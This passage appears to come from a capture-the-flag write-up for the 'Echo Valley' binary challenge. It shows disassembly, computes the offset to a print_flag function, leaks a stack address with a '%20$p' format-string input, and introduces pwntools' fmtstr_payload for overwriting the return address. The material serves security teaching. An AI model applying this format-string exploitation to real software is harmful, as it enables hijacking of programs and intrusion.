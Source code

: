 Now we need to find the offset between the current return address and the address of the `print_flag` function. 
```
0000000000001269 <print_flag>:
    1269:	f3 0f 1e fa          	endbr64
    126d:	55                   	push   %rbp
    126e:	48 89 e5             	mov    %rsp,%rbp
    ...
    12f8:	e8 f3 fd ff ff       	call   10f0 <fclose@plt>
    12fd:	bf 00 00 00 00       	mov    $0x0,%edi
    1302:	e8 69 fe ff ff       	call   1170 <exit@plt>
    
0000000000001401 <main>:
    1401:	f3 0f 1e fa          	endbr64
    1405:	55                   	push   %rbp
    1406:	48 89 e5             	mov    %rsp,%rbp
    1409:	b8 00 00 00 00       	mov    $0x0,%eax
    140e:	e8 f4 fe ff ff       	call   1307 <echo_valley>
    1413:	b8 00 00 00 00       	mov    $0x0,%eax
    1418:	5d                   	pop    %rbp
    1419:	c3                   	ret
```
Looking at this condensed `objdump` output, we can see that `print_flag` has an offset of `0x1269` and the current return address of the `echo_valley` function is `0x1413`.

Thus, the offset is: `0x1269-0x1413=-0x1AA` 

### Step 2
Now, we need to leak the saved EBP on the stack. Looking at this picture, we can see that the saved EBP is directly above the return address.
![Stack Frame Example](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg0Jii-ufTp-kPHGUsMdowQyZVJ3wZW3m88J7u0CpSrONv3tNfsqL5lRr4y6XN_uX2H-ubqCFUkA3vusdvAkdzdpsEfLGAntb6ME0rWTI5fmgwfbDOYlSkjgChGimrI4gzZhC64oZWq/s320/mem.png)
Thus, we can simply do `%20$p` to leak the saved EBP.
```
└─$ ./valley
Welcome to the Echo Valley, Try Shouting: 
%20$p
You heard in the distance: 0x7fff506a2c80
```
Since the return address is the first value saved on the stack when a function is called, we can calculate the address of the return address by subtracting `0x8` from the leaked address. 
### Step 3
Now, we need to use the format string vulnerability to overwrite the return address with the address of the `print_flag` function. 

pwntools has a very useful function to perform exactly this. 
```
pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte') → str
```
Parameters:
- **offset** – the first formatter’s offset you control
- **writes** – dict with addr, value `{addr: value, addr2: value2}`
